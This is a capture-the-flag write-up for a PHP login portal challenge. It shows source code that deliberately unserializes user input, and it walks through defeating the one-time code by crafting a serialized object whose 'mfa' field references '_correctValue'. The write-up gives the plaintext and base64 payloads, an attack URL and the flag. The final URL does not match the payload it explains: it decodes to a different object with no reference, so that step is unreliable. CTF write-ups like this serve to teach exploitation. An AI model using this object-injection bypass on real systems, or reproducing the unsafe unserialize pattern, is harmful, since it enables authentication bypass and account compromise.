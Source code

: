 # Corporate MFA

The source for this corporate zero-trust multi factor login portal has been leaked! Figure out how to defeat the super-secure one time code.

Service: http://corpmfa-01.play.midnightsunctf.se 

Download: corpmfa.tar.gz

## Challenge

The service is a login page which requires a username, password, and MFA token.

We are given the php source code for the challenge.

### Credential verification source code

```php
<?php

final class User
{
	private $userData;

	public function __construct($loginAttempt)
	{
		$this->userData = unserialize($loginAttempt);
		if (!$this->userData)
			throw new InvalidArgumentException('Unable to reconstruct user data');
	}

	private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}

	private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}

	private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
	
	public function verify()
	{
		if (!$this->verifyUsername())
			throw new InvalidArgumentException('Invalid username');

		if (!$this->verifyPassword())
			throw new InvalidArgumentException('Invalid password');

		if (!$this->verifyMFA())
			throw new InvalidArgumentException('Invalid MFA token value');

		return true;
	}

}
```

As we can see, the username and password are hardcoded.
The password is hashed using built-in php functions.
The MFA token is a randomly generated integer for each login.

## Solution

### Username

The username is given in the source code:

```php
	private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}
```

### Password

The password for the given hash can be found online from the php official documentation:

```php
	private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}
```

[!PHP verifyPassword() Docs](./resources/function.password-verify.png?raw=true)

Password: `rasmuslerdorf`

### MFA token

It is impractical to guess the value of the MFA token.
However, there is an unsafe deserialization of user input on each login attempt:

```php
	public function __construct($loginAttempt)
	{
		$this->userData = unserialize($loginAttempt);
		if (!$this->userData)
			throw new InvalidArgumentException('Unable to reconstruct user data');
	}
```

We can specify our own `unserialize` input as a GET parameter:

```
if (!empty($_GET) && isset($_GET['userdata']))
{
	// prepare notification data structure
	$notification = new stdClass();

	// check credentials & MFA
	try
	{
		$user = new User(base64_decode($_GET['userdata']));
		if ($user->verify())
		{
			$notification->type = 'success';
			$notification->text = 'Congratulations, your flag is: ' . file_get_contents('/flag.txt');
		}
        ...
```

By crafting our own input for `unserialize`, we can make the `mfa` variable a reference to `_correctValue`, so that `(int)$this->userData->mfa === $this->userData->_correctValue` always returns true.

To do so, we modify the serialized payload to include an additional field `_correctValue`, formatted as a number `N`.
We can now reference this value when setting `mfa` using the `R` format and pointing it at position 2, where the `N` format from earlier was placed.
Now, `mfa` will reference the value of `_correctValue`.

## Payload

```
# plaintext
O:8:"stdClass":4:{s:13:"_correctValue";N;s:8:"username";s:11:"D0loresH4ze";s:8:"password";s:13:"rasmuslerdorf";s:3:"mfa";R:2;}

# base64
Tzo4OiJzdGRDbGFzcyI6NDp7czoxMzoiX2NvcnJlY3RWYWx1ZSI7TjtzOjg6InVzZXJuYW1lIjtzOjExOiJEMGxvcmVzSDR6ZSI7czo4OiJwYXNzd29yZCI7czoxMzoicmFzbXVzbGVyZG9yZiI7czozOiJtZmEiO1I6Mjt9

# url
https://corpmfa-01.play.midnightsunctf.se/?userdata=Tzo4OiJzdGRDbGFzcyI6Mzp7czo4OiJ1c2VybmFtZSI7czoxMToiRDBsb3Jlc0g0emUiO3M6ODoicGFzc3dvcmQiO3M6MTM6InJhc211c2xlcmRvcmYiO3M6MzoibWZhIjtzOjEwOiIxMjM0NTY3ODkwIjt9
```

## Flag

`midnight{395E160F-4DB8-4D7A-99EF-08E6799741B5}`

